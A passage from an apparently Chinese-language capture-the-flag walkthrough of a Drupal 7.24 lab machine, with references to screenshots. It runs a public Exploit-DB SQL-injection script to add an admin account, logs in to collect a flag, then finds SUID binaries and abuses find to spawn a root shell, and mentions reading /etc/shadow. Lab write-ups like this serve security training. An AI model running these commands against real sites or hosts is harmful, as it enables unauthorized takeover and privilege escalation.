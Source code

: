 版本是7.24,看看有哪里可以用的脚本

```
searchsploit drupal
```

![image-20211027200511756](images/26.png)

看到当版本小于7.31的时候可以有添加admin user的脚本

```
python2 /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.43.152 -u admin1 -p 123456
```

![image-20211027201146872](images/27.png)

看到admin1已经添加成功

![image-20211027200959973](images/28.png)

利用admin1登陆,和admin账户是一样的

![image-20211027201247398](images/29.png)

拿到flag3

![image-20211027201317242](images/30.png)

根据几个关键词，perms,find,exec,shadow

![image-20211027201647707](images/31.png)

然而shadow只对于root用户可读,根据perm,find,exec那应该是要提权了

```
find / -perm -u=s 2>/dev/null
```

果然find具有SUID权限

![image-20211027202036429](images/32.png)

那就利用find进行SUID提权

```
find / -exec '/bin/sh' \;
```

![image-20211027202225047](images/33.png)

```
/etc/passwd保存着每个用户账号。该文件只有管理员可以修改，但是对于所有的用户都可读

/etc/shadow保存着密码等信息。该文件只有系统管理员能够修改和查看，其他用户不能查看、修改。
```

我也不知道为什么非要去读/etc/shadow来看到一串编码的东西
